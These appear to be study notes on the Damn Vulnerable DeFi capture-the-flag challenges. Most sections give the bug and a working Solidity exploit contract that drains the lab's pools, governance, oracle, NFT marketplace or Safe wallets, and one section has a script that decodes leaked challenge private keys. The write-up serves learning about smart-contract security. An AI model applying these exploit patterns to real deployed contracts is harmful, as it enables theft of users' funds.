




### Unstoppable
Condition:
- vault can't offer flashloan: `monitorContract.checkFlashLoan(100e18);`
- vault is paused: `assertTrue(vault.paused(), "Vault is not paused");`
- vault.owner = deployer: `assertEq(vault.owner(), deployer, "Vault did not change owner");`

Key concept:

Solution:

#### Learning by doing
[`expectEmit`](https://getfoundry.sh/reference/cheatcodes/expect-emit/)

Ex:
```solidity!
vm.expectEmit(true, true, false, true);
emit Transfer(address(0xA), address(0xB), 100);
```
which means: On the next call, expect an event with:
- `topic1 == 0xA`
- `topic2 == 0xB`
- `data == 100`

If there are mutiple non-indexed arguments in `data`, it will check them by following Solidity’s ABI rules

---

### Naive Receiver
Condition:
- Rescue all `WETH` from `receiver` and `pool`, and deposit it into the designated `recovery` account
- Must have executed two or less transactions

Key Concepts:
- **flashloan**: doesn't check whether the origin of the flash loan is authorized
- **multicall**
- **meta-transaction, forwarder, `EIP-712`, `msg.sender` manipulation**

Solution:
- We can find that in each flashloan, there exist a fixed fee 1 ETH, and since `onFlashLoan()` inside `receiver` simply let anyone borrow the flashloan and specify itself as `receiver`, so we can drain all ETH (`10 ETH`) from `receiver` after 10 rounds of flashloan
- After draining ETH from `receiver`, we need to drain all ETH (`1010 ETH`) from `pool` and transfer them to designated `recovery` account. We can observe that the only function is `pool.withdraw()`, since now all ETH reside in `pool`, we need to let `_msgSender() == pool`
- In order to manipulate `_msgSender()`, we need to satisfy `msg.sender == trustedForwarder && msg.data.length >= 20` to retrun the last 20 bytes address, which needs to use forwarder to execute a meta-transaction
#### 邊做邊學
- **`_msgSender()`**
    - override: used in **meta-transactions** to **extract the original sender of a transaction** when it’s sent through a trusted forwarder (e.g. relayer, `ERC-2771` forwarder, `EIP-712`).
    - `super._msgSender()`: 繼承問題，back to parent implementation
- **[EIP-712 如何簽名](https://github.com/AmazingAng/WTF-Solidity/blob/main/52_EIP712/readme.md)**

---

### Truster

Condition:
- only 1 transcation is allowed
- All tokens from `pool` are transfered to `recovery` account

Key Concet:
- Flashloan
- Arbitary External Call

Solution:

- `target.functionCall(data)` inside `flashloan()` allows the flashloan borrower to perform arbitary logic via `target` & data
- We can call `token.approve(address to, uint256 amount)` to let `pool` approves us

PoC:
```solidity
function test_truster() public checkSolvedByPlayer {
    // Player exploits the TrusterLenderPool to approve themselves to transfer tokens druing flashloan
    // and then transfers the tokens to the recovery address.
    new PoolExploiter(
        address(pool),
        address(token),
        recovery,
        TOKENS_IN_POOL
    );
}

contract PoolExploiter {
    constructor(
        address pool, 
        address token, 
        address recovery, 
        uint amount 
    ) {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            amount
        );

        TrusterLenderPool(pool).flashLoan(0, address(this), address(token), data);
        DamnValuableToken(token).transferFrom(address(pool), recovery, amount);
    }
}   
```

---

### Side Entrance

Condition:
- Transfer all tokens from `pool` to `recovery` account

Key Concept:
- Flashloan
- Arbitary External Call
- Incorrect use of `address(this).balance` as a validation method

Solution:

We can deposit `amount` of `ETH` borrowed by `flashloan` into `pool`, and it turns out that `pool` stills contain `amount` of `ETH`, but it's now deposited by us, so we can withdraw it in the following operation

PoC:
```solidity
// add this function inside the test
function test_sideEntrance() public checkSolvedByPlayer {
    exploiter = new SideEntranceExploiter(address(pool));
    exploiter.exploit(ETHER_IN_POOL, recovery);
}

contract SideEntranceExploiter is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;

    constructor(address poolAddress) {
        pool = SideEntranceLenderPool(poolAddress);
    }
    
    function exploit(uint amount, address recovery) external {
        pool.flashLoan(amount);
        pool.withdraw();
        SafeTransferLib.safeTransferETH(recovery, amount);
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {
        
    }
}
```

Mitigation:

---

### The Rewarder

Condition:
- Save as much funds as possible and transfer them to `recovery` account

Key Concept:
- Incorrect State Management
- Double Spending

Solution:

- `claims` isn't updated immediately, that is, `_setClaimed()` is called only the last claim with the same type of token
- Nor does merkle proof contain the info about usage (i.e., whether this leaf has been claimed and used)
- We can simply re-claim rewards by construct `Claim[] memory inputClaims` whose element are all the same

PoC:
```solidity
function test_theRewarder() public checkSolvedByPlayer {
        
    bytes32[] memory dvtLeaves = _loadRewards("/test/the-rewarder/dvt-distribution.json");
    bytes32[] memory wethLeaves = _loadRewards("/test/the-rewarder/weth-distribution.json");

    (uint256 player_dvt_index, uint256 player_dvt_amount) = _findBeneficiaryIndex("/test/the-rewarder/dvt-distribution.json");
    (uint256 player_weth_index, uint256 player_weth_amount) = _findBeneficiaryIndex("/test/the-rewarder/weth-distribution.json");

    IERC20[] memory tokensToClaim = new IERC20[](2);
    tokensToClaim[0] = IERC20(address(dvt));
    tokensToClaim[1] = IERC20(address(weth));

    Claim[] memory claims = new Claim[](1720);

    // 853 iterations for WETH
    for (uint i = 0; i < 853; i++) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_weth_amount,
            tokenIndex: 1, // WETH is the second token in the array
            proof: merkle.getProof(wethLeaves, player_weth_index)
        });
    }

    // 867 iterations for DVT
    for (uint i = 853; i < 1720; i++) {
        claims[i] = Claim({
            batchNumber: 0,
            amount: player_dvt_amount,
            tokenIndex: 0, // DVT is the first token in the array
            proof: merkle.getProof(dvtLeaves, player_dvt_index)
        });
    }

    distributor.claimRewards({inputClaims: claims, inputTokens: tokensToClaim});

    dvt.transfer(recovery, dvt.balanceOf(player));
    weth.transfer(recovery, weth.balanceOf(player));
}

function _findBeneficiaryIndex(
    string memory path
) private view returns (uint256 index, uint256 amount) {
    Reward[] memory rewards =
        abi.decode(vm.parseJson(vm.readFile(string.concat(vm.projectRoot(), path))), (Reward[]));

    for (uint256 i = 0; i < rewards.length; i++) {
        if (rewards[i].beneficiary == address(player)) {
            return (i, rewards[i].amount);    
        }
    }
}
```

#### Learning by doing
MerkleDistributor: 
- **Bitmap**: a data structure that uses individual bits to represent the state of multiple boolean flags. Inside this contract:
    - Each **bit** represents whether a batch reward has been claimed.
    - Each **word** tracks 256 **batchNumbers**
- Mapping layouts: 
    ```solidity
    mapping(address => mapping(uint256 word => uint256 bits)) claims;
    ```
    - Inner mapping maps from **word index** (i.e., `batchNumber / 256`) to a uint256.
    - Each uint256 bit inside that word represents whether that batch was claimed.
- Bit Manipulation Logic: `_setClaimed()`
    - Check if claimed: use `&` (bitwise AND) to invalid claim if any of the target bits are already set
        ```solidity
        if ((currentWord & newBits) != 0) return false;
        ```
    - Set claimed: use `|` (bitwise OR) to set the desired bits.
        ```solidity
        distributions[token].claims[msg.sender][wordPosition] = currentWord | newBits;
        ```
---

### Selfie

Condition:
- Rescue all funds inside `pool` and transfer them to `recovery` account

Key Concept:
- Flashloan
- Arbitary External CAll
- [Vote delegation](https://docs.openzeppelin.com/contracts-cairo/0.20.0/governance/votes)
- Governance mechanism
- CheckPoints

Solution:
- The only way to withdraw all funds inside `pool` is to call `emergencyExit()`, but only goverance can call it
- It may be exploitable if we can make goverance do it for us
    - `queueAction()` offering a way to make goverance call `emergencyExit()` and assign us or any other to be `receiver`
- We need to have over half of voting power, which means to have over half of token, e.g. `DamnValuableVotes`
- Since it inherit from `ERC20Votes`, which inherit from `Votes`, delegation is needed 

PoC:
```solidity
@> // add this test 
function test_selfie() public checkSolvedByPlayer {
        
    SelfieExploiter exploiter = new SelfieExploiter(pool, governance, recovery);
    exploiter.exploit();

    // Skip the action delay
    skip(3 days);
    governance.executeAction(1);
}


@> // Attack contract
contract SelfieExploiter is IERC3156FlashBorrower {

    address public recovery;

    SimpleGovernance public governance;
    SelfiePool public pool;

    constructor(SelfiePool _pool, SimpleGovernance _governance, address _recovery) {
        pool = _pool;
        governance = _governance;
        recovery = _recovery;
    }

    function onFlashLoan(
        address sender,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata data
    ) external returns (bytes32) {
        
        DamnValuableVotes(token).delegate(address(this));

        governance.queueAction(
            address(pool),
            0,
            abi.encodeWithSignature("emergencyExit(address)", recovery)
        );

        DamnValuableVotes(token).approve(address(pool), amount);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    function exploit() external {

        pool.flashLoan(
            IERC3156FlashBorrower(address(this)),
            address(pool.token()),
            pool.maxFlashLoan(address(pool.token())),
            ""
        );
    }
}
```

#### Learning by doing: Votes
`Votes` abstract contract turns any token (`ERC20`, `ERC721`, etc.) into a governance voting token, and instead of just using balances as votes, it introduces:
- **Delegation**: token holders delegate their voting power
- **Historical lookup**: voting power at past blocks (used in **snapshot voting**)
- **Efficient storage**: using `Checkpoints.Trace208` 

Core Architecture

| Variable | Type | Purpose |
| -------- | -------- | -------- |
| `_delegatee[account]`         |  `address`        | Who account delegated their votes to         |
|  `_delegateCheckpoints[delegatee]`        | `Checkpoints.Trace208`         | Track vote changes for each delegate         |
| `_totalCheckpoints`     | `Checkpoints.Trace208`    | Track total votes across all accounts     |




---

### Compromised
Condition:
- Rescue all ETH from `exchange` and transfer them to `recovery`
- `Player` must not own any NFT
- NFT's price doesn't change. (i.e., still `999 ether`)

Key Concept:
- ERC721
- Private Key Leakage

Solution:
- Mint an NFT without transfering ETH ? -> ❌ **only identity with `MINTER_ROLE` can mint NFT, which is `exchange`**
- Create a fake NFT ? -> ❌ **`sellOne()` only used the registered NFT**
- Manipulate price oracle's price ?
    - ❌ if not with `TRUSTED_SOURCE_ROLE`, which only three trusted source do have
    - ✅ by observing the problem's description, the odd response are actually two wallets' private  

With the wallets' private key, we are able to adjust NFT's price by `postPrice()`
```python
import base64

def hex_to_ascii(hex_str):
    ascii_str = ''
    for i in range(0, len(hex_str), 2):
        ascii_str += chr(int(hex_str[i:i+2], 16))
    return ascii_str

def decode_base64(base64_str):
    # Decode Base64 to ASCII
    return base64.b64decode(base64_str).decode('utf-8')

leaked_information = [
    '4d 48 67 33 5a 44 45 31 59 6d 4a 68 4d 6a 5a 6a 4e 54 49 7a 4e 6a 67 7a 59 6d 5a 6a 4d 32 52 6a 4e 32 4e 6b 59 7a 56 6b 4d 57 49 34 59 54 49 33 4e 44 51 30 4e 44 63 31 4f 54 64 6a 5a 6a 52 6b 59 54 45 33 4d 44 56 6a 5a 6a 5a 6a 4f 54 6b 7a 4d 44 59 7a 4e 7a 51 30',
    '4d 48 67 32 4f 47 4a 6b 4d 44 49 77 59 57 51 78 4f 44 5a 69 4e 6a 51 33 59 54 59 35 4d 57 4d 32 59 54 56 6a 4d 47 4d 78 4e 54 49 35 5a 6a 49 78 5a 57 4e 6b 4d 44 6c 6b 59 32 4d 30 4e 54 49 30 4d 54 51 77 4d 6d 46 6a 4e 6a 42 69 59 54 4d 33 4e 32 4d 30 4d 54 55 35',
]

from eth_account import Account

for leak in leaked_information:
    hex_str = ''.join(leak.split())
    ascii_str = hex_to_ascii(hex_str)
    decoded_str = decode_base64(ascii_str)
    private_key = decoded_str
    print("Private Key:", private_key)
    
    # Create a wallet instance from the private key
    wallet = Account.from_key(private_key)
    
    # Get the public key (address)
    address = wallet.address
    print("Wallet address:", address)

# Private Key: 0x7d15bba26c523683bfc3dc7cdc5d1b8a2744447597cf4da1705cf6c993063744
# Wallet address: 0x188Ea627E3531Db590e6f1D71ED83628d1933088
# Private Key: 0x68bd020ad186b647a691c6a5c0c1529f21ecd09dcc45241402ac60ba377c4159
# Wallet address: 0xA417D473c40a4d42BAd35f147c21eEa7973539D8
```

PoC:
```solidity
// Add this test
function test_compromised() public checkSolved {

    // Set the price of the NFT to 0
    // mimic that wallet's pk is obtained and we can use it to send tx on behalf of it
    vm.startPrank(sources[0]);
    oracle.postPrice(symbols[0],0);
    vm.stopPrank();
    vm.startPrank(sources[1]);
    oracle.postPrice(symbols[0],0);
    vm.stopPrank();

    vm.prank(player);

    uint256 nftId = exchange.buyOne{value: address(player).balance}();

    // Reset the price to the original value
    vm.startPrank(sources[0]);
    oracle.postPrice(symbols[0],999 ether);
    vm.stopPrank();
    vm.startPrank(sources[1]);
    oracle.postPrice(symbols[0],999 ether);
    vm.stopPrank();

    vm.startPrank(player); 
    
    nft.approve(address(exchange), nftId); 
    exchange.sellOne(nftId);
    payable(recovery).transfer(EXCHANGE_INITIAL_ETH_BALANCE);
    
    vm.stopPrank();
}
```

---

### Puppet

Condition:
- Only 1 tx is allowed
- All tokens of `lending pool` were deposited into `recovery`

Key Concept:
- Price Oracle Manipulation
- UniswapV1

Solution:
- According to the following two functions, we can calculate given `amount`, `depositRequired = amount * 2 * exchange.balance / token.balanceOf(exchange)`
    ```solidity
    function calculateDepositRequired(uint256 amount) public view returns (uint256) {
        return amount * _computeOraclePrice() * DEPOSIT_FACTOR / 10 ** 18;
    }

    function _computeOraclePrice() private view returns (uint256) {
        // calculates the price of the token in wei according to Uniswap pair
        return uniswapPair.balance * (10 ** 18) / token.balanceOf(uniswapPair);
    }
    ```
- Since `amount = 100_000`, but we only have 25 ETH, we need to adjust the reserve of ETH & token inside the pool
- By observing the exchange's interface, we can leverage `tokenToEthSwapInput()` to swap token for ETH

PoC:
```solidity
// add this test
function test_puppet() public checkSolvedByPlayer {
    PuppetExploiter exploiter = new PuppetExploiter{value:PLAYER_INITIAL_ETH_BALANCE}(
        uniswapV1Exchange,
        lendingPool,
        token,
        recovery
    );

    token.transfer(address(exploiter), PLAYER_INITIAL_TOKEN_BALANCE);

    exploiter.exploit();
}

// exploit contract
contract PuppetExploiter {

    IUniswapV1Exchange public exchange;
    PuppetPool public pool;
    DamnValuableToken public token;
    address public recovery;

    constructor(IUniswapV1Exchange _exchange, PuppetPool _pool, DamnValuableToken _token, address _recovery) payable {
        exchange = _exchange;
        pool = _pool;
        token = _token;
        recovery = _recovery;
    }

    function exploit() external payable {

        token.approve(address(exchange), token.balanceOf(address(this)));
        exchange.tokenToEthSwapInput(
            token.balanceOf(address(this)),
            9 ether,
            block.timestamp + 1
        );  

        pool.borrow{value: address(this).balance}(
            token.balanceOf(address(pool)),
            recovery
        );
    }

    receive () external payable {}
}
```

---

### Puppet V2

Condition:
- All tokens (i.e. `1_000_000`) are rescued from `pool` and transfer to `recovery`

Key Concept:
- Price Oracle Manipulation
- UniswapV2 contract

Solution:
- Initial condition:
    - `exchange: (100 token) / (10 WETH)`
    - `player: (10000 token) / (20 ETH)`
    - `pool: 1_000_000 token`
- According to the following three functions, given `amount` token , WETH needed = `amount * 3 * reservesWETH / reservesToekn`
    ```solidity
    function calculateDepositOfWETHRequired(uint256 tokenAmount) public view returns (uint256) {
        uint256 depositFactor = 3;
        return _getOracleQuote(tokenAmount) * depositFactor / 1 ether;
    }

    // Fetch the price from Uniswap v2 using the official libraries
    function _getOracleQuote(uint256 amount) private view returns (uint256) {
        (uint256 reservesWETH, uint256 reservesToken) =
            UniswapV2Library.getReserves({factory: _uniswapFactory, tokenA: address(_weth), tokenB: address(_token)});

        return UniswapV2Library.quote({amountA: amount * 10 ** 18, reserveA: reservesToken, reserveB: reservesWETH});
    }

    // given some amount of an asset and pair reserves, returns an equivalent amount of the other asset
    function quote(uint256 amountA, uint256 reserveA, uint256 reserveB) internal pure returns (uint256 amountB) {
        require(amountA > 0, "UniswapV2Library: INSUFFICIENT_AMOUNT");
        require(reserveA > 0 && reserveB > 0, "UniswapV2Library: INSUFFICIENT_LIQUIDITY");
        amountB = amountA * reserveB / reserveA;
    }
    ```
- We can adjust exchange's reserve ratio, by swapping our token for WETH, however, this isn't enough, so we deposit our ETH to mint WETH

PoC:
```solidity
// add this test
function test_puppetV2() public checkSolvedByPlayer {
        
    // 1. Player swaps all its tokens for WETH
    token.approve(address(uniswapV2Router), PLAYER_INITIAL_TOKEN_BALANCE);
    address[] memory path = new address[](2);
    path[0] = address(token);
    path[1] = address(weth);

    uniswapV2Router.swapExactTokensForTokens(
        PLAYER_INITIAL_TOKEN_BALANCE,
        0,
        path,
        player,
        block.timestamp * 2
    );

    // 2. Player deposits its ETH to mint WETH
    weth.deposit{value: player.balance}();

    weth.approve(address(lendingPool), weth.balanceOf(player));
    lendingPool.borrow(POOL_INITIAL_TOKEN_BALANCE);
    token.transfer(recovery, token.balanceOf(player));
}
```

#### Learning by doing
- [UniswapV2Router02](https://docs.uniswap.org/contracts/v2/reference/smart-contracts/router-02) 

---

### Free Rider

Condition:
- `mareket` loss ETH and all NFTs
- `player` earn all bounty reward (i.e. `BOUNTY = 45 ether`) from `recoveryManager`

Key Concept:
- [Flash Swaps](https://docs.uniswap.org/contracts/v2/concepts/core-concepts/flash-swaps)
- Miss-used `msg.value` for validation 

Solution:
- Due to the initial limited ETH balance, we must find the way to prepare funds, by observing `setup()`, we can leverage flash swap (i.e., flashloan service provided by `uniswapPair` exchange)
- Since all NFTs require for `90 ETH`, while `BOUNTY = 45 ether`, it seems that we can't  simply borrow and repay flashloan
- It must have a bug inside `marketplace`, by observing the code, it can be found that but since we can call `buyMany()` to buy multiple NFTs at the same time, and every time it just checks if `msg.value < priceToPay`, so we can simply send `15 ehter` and buy multiple NFTs
- Note that when repay flashloan, there's a small fee required (0.3% for Uniswap)

PoC:
```solidity
// add this test
function test_freeRider() public checkSolvedByPlayer {
    
    FreeRiderExploiter exploiter = new FreeRiderExploiter (
        payable(address(weth)),
        address(token),
        address(nft),
        address(uniswapV2Factory),
        address(uniswapV2Router),
        address(uniswapPair),
        payable(address(marketplace)),
        address(recoveryManager),
        player
    );

    exploiter.exploit();
}

// attack contract
contract FreeRiderExploiter {
    
    uint256 constant AMOUNT_OF_NFTS = 6;

    WETH weth;
    DamnValuableToken token;
    DamnValuableNFT nft;

    IUniswapV2Pair uniswapPair;
    IUniswapV2Factory uniswapV2Factory;
    IUniswapV2Router02 uniswapV2Router;
    FreeRiderNFTMarketplace marketplace;
    FreeRiderRecoveryManager recoveryManager;

    address player;

    constructor(
        address payable _weth,
        address _token,
        address _nft,
        address _uniswapV2Factory,
        address _uniswapV2Router,
        address _uniswapV2Pair,
        address payable _marketplace,
        address _recoveryManager,
        address _player
    ) {
        weth = WETH(_weth);
        token = DamnValuableToken(_token);
        nft = DamnValuableNFT(_nft);

        uniswapV2Factory = IUniswapV2Factory(_uniswapV2Factory);
        uniswapV2Router = IUniswapV2Router02(_uniswapV2Router);
        uniswapPair = IUniswapV2Pair(_uniswapV2Pair);

        recoveryManager = FreeRiderRecoveryManager(_recoveryManager);
        marketplace = FreeRiderNFTMarketplace(_marketplace);

        player = _player;
    }

    function exploit() external {

        bytes memory callData = hex"00";
        uniswapPair.swap(
            15 ether, // amount0Out, which is WETH
            0, // amount1Out
            address(this), // to
            callData // data
        );

    }

    function uniswapV2Call(address sender, uint amount0, uint amount1, bytes calldata data) external {
        address token0 = IUniswapV2Pair(msg.sender).token0(); // fetch the address of token0
        address token1 = IUniswapV2Pair(msg.sender).token1(); // fetch the address of token1
        assert(msg.sender == IUniswapV2Factory(uniswapV2Factory).getPair(token0, token1)); // ensure that msg.sender is a V2 pair

        // Buy all NFTs from the marketplace with only 15 ETH
        uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
        for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
            ids[i] = i;
        }

        uint256 amount = amount0 == 0 ? amount1 : amount0; // determine the amount of token to repay
        weth.withdraw(amount); // withdraw WETH to ETH
        marketplace.buyMany{value: amount}(ids);

        // Approve recoveryManager to transfer all NFTs
        nft.setApprovalForAll(address(recoveryManager), true);

        // Transfer the NFTs to the recovery manager & get the bounty
        bytes memory player_address = abi.encode(player);
        for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
            nft.safeTransferFrom(address(this), address(recoveryManager), i, player_address);
        }
        
        // repay the flash loan
        uint256 amount_repay = amount * 1000 / 997 + 1; // calculate the amount to repay with a 0.3% fee
        weth.deposit{value: amount_repay}();
        weth.transfer(msg.sender, amount_repay);

    }

    function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
    ) external view returns (bytes4) {
        require(msg.sender == address(nft), "Invalid NFT received");
        return IERC721Receiver.onERC721Received.selector;
    }   

    receive() external payable {
    
    }
}
```

#### Learning by doing
- [UniswapV2Pair](https://docs.uniswap.org/contracts/v2/reference/smart-contracts/pair)
- [Flash Swaps](https://docs.uniswap.org/contracts/v2/guides/smart-contract-integration/using-flash-swaps)

---

### Backdoor
Condition:
- Only one tx allowed
- All users have registered a wallet and no longer beneficiaries
- Rescue all funds from `walletRegistry` and deposit them into `recovery`

Key Concept:
- Safe Smart Account (smart contract wallet)
    - One singleton (masterCopy), e.g. `Safe`
    - All actual proxies (contract wallets) (e.g. `SafeProxy`) use singleton as their logic contract (implementation)
    - Proxy Factory (e.g. `SafeProxyFactory`) deploy with their creation code and singleton, and then initialize it via `initializer`
- Delegation
- Proxy Contract Initialization

Solution:
- We need to call `createProxyWithCallback()` inside `SafeProxyFactory` to create a proxy wallet and initialize it
- The workflow of the creation and initialization:
    - `SafeProxyFactory` create a `proxy` and call it to initialize it
    - `proxy` fallback to its implementation contract, i.e. `Safe` to execute `setup()`
    - Inside `setup()`, it initialize the `proxy`, also with optional delegatecall for additional module setup
    - By carefully inspecting the code, we can find that optional delegatecalk logic allows us to execute arbitrary operation via `to` and `data`
- Transition of `msg.sender` and context:
    ```
    SafeProxyFactory → call → SafeProxy
        → delegatecall → Safe.setup()
            → delegatecall → Module.doSomething()
    ```
    At this point, we are 3 layers deep with 2 delegatecalls.
    

    | Context | Value |
    | ------- | ----- |
    | `msg.sender`        |`SafeProxyFactory` (original external caller)       |
    | storage        | of `SafeProxy`      |
    | `address(this)`        | `SafeProxy` (storage context)      |
    | `Safe`  | code only (no storage used)      |
    | Module    | also code only  |
- Once we execute an external call inside module -> `msg.sender == SafeProxy`, if this external call is approved, we can let `SafeProxy`, which is contract wallet, to approve us transfering their token

PoC:
```solidity
// test
function test_backdoor() public checkSolvedByPlayer {

    BackdoorExploiter exploiter = new BackdoorExploiter(
        payable(address(singletonCopy)),
        address(walletFactory),
        address(walletRegistry),
        recovery,
        address(token),
        users
    );

    exploiter.exploit();
}


// Exploit contract
contract BackdoorExploiter {
    uint256 private constant PAYMENT_AMOUNT = 10 ether;

    Safe private immutable singletonCopy;
    SafeProxyFactory private immutable walletFactory;
    WalletRegistry private immutable walletRegistry;
    DamnValuableToken private immutable token;

    address recovery;
    address[] users;

    constructor(
        address payable _singletonCopy,
        address _walletFactory,
        address _walletRegistry,
        address _recovery,
        address _token,
        address[] memory _users
    ) {
        singletonCopy = Safe(_singletonCopy);
        walletFactory = SafeProxyFactory(_walletFactory);
        walletRegistry = WalletRegistry(_walletRegistry);
        token = DamnValuableToken(_token);
        recovery = _recovery;
        users = _users;
    }

    function delegateApprove(address spender) external {
        token.approve(spender, PAYMENT_AMOUNT);
    }

    function exploit() public {

        SafeProxy[] memory proxies = new SafeProxy[](4);

        for (uint256 i = 0; i < 4; i++) {
            // Prepare the initializer for the Safe setup
            bytes memory data = abi.encodeWithSignature(
                "delegateApprove(address)",
                address(this)
            );
            address[] memory owner = new address[](1);
            owner[0] = users[i];
            bytes memory initializer = abi.encodeWithSelector(
                Safe.setup.selector,
                owner, // owner: alice
                1, // Threshold
                address(this), // to: Contract address for optional delegate call
                data, // data: Data payload for optional delegate call
                0, // Fallback handler
                0, // payment token
                0, // payment
                0  // payment receiver
            );

            // Create a proxy for each user
            proxies[i] = walletFactory.createProxyWithCallback(
                address(singletonCopy),
                initializer,
                i, // salt nonce
                IProxyCreationCallback(walletRegistry)
            );
        }

        token.transferFrom(address(proxies[0]), recovery, PAYMENT_AMOUNT);
        token.transferFrom(address(proxies[1]), recovery, PAYMENT_AMOUNT);
        token.transferFrom(address(proxies[2]), recovery, PAYMENT_AMOUNT);
        token.transferFrom(address(proxies[3]), recovery, PAYMENT_AMOUNT);
    }
}
```
#### Appendix

#### Learning by doing
- SafeProxy, Safe (singleton)
- [How do Safe Smart Accounts work](https://docs.safe.global/advanced/smart-account-overview)
- [safe-smart-account github](https://github.com/safe-global/safe-smart-account)
- BytesLib for slicing bytes memory



---

### Climber

Condition:
- Rescue all funds from `vault` and transfer them to `recovery`

Key Concept:
- Upgradable Proxy
    - [ERC-1967](https://eips.ethereum.org/EIPS/eip-1967)
    - [UUPS](https://docs.openzeppelin.com/contracts/4.x/api/proxy)
    - [ERC-7201 Namespace Storage Layout](Namespaced Storage Layout )
    - Initializable
- Incorrect validation check implementation: **check after exected**


Solution:
- If we can somehow upgrade the implementation of vault, we can do arbitrary logic via `ERC1967Utils.upgradeToAndCall()` -> but the upgrade operation has `onlyOwner` limitation (i.e., only `ClimberTimelock` can call)
- `ClimberTimelock` provides `schedule()` and `execute()` to let it perform operation for us, -> but `schedule()` has `onlyRole(PROPOSER_ROLE)` limitation
- Inside `execute()`, it performs operation then check its validity, rather than check before execution. This allows us to do arbitrary operations first then execute `schedule()` as the last operation, to satisfy the constraint
